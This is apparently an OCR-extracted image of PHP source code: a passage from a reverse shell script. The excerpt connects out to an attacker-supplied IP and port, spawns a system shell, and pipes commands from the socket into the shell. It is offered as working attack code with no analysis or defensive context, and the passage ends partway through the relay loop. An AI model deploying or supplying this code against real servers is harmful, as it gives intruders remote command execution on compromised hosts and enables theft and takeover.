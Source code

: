 ```
umask(0);

//
// Do the reverse shell...
//

// Open reverse connection
$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if (!$sock) {
	printit("$errstr ($errno)");
	exit(1);
}

// Spawn shell process
$descriptorspec = array(
   0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
   1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
   2 => array("pipe", "w")   // stderr is a pipe that the child will write to
);

$process = proc_open($shell, $descriptorspec, $pipes);

if (!is_resource($process)) {
	printit("ERROR: Can't spawn shell");
	exit(1);
}

// Set everything to non-blocking
// Reason: Occsionally reads will block, even though stream_select tells us they won't
stream_set_blocking($pipes[0], 0);
stream_set_blocking($pipes[1], 0);
stream_set_blocking($pipes[2], 0);
stream_set_blocking($sock, 0);

printit("Successfully opened reverse shell to $ip:$port");

while (1) {
	// Check for end of TCP connection
	if (feof($sock)) {
		printit("ERROR: Shell connection terminated");
		break;
	}

	// Check for end of STDOUT
	if (feof($pipes[1])) {
		printit("ERROR: Shell process terminated");
		break;
	}

	// Wait until a command is end down $sock, or some
	// command output is available on STDOUT or STDERR
	$read_a = array($sock, $pipes[1], $pipes[2]);
	$num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);

	// If we can read from the TCP socket, send
	// data to process's STDIN
	if (in_array($sock, $read_a)) {
		if ($debug) printit("SOCK READ");
		$input = fread($sock, $chunk_size);
		if ($debug) printit("SOCK: $input");
		fwrite($pipes[0], $input);
	}

```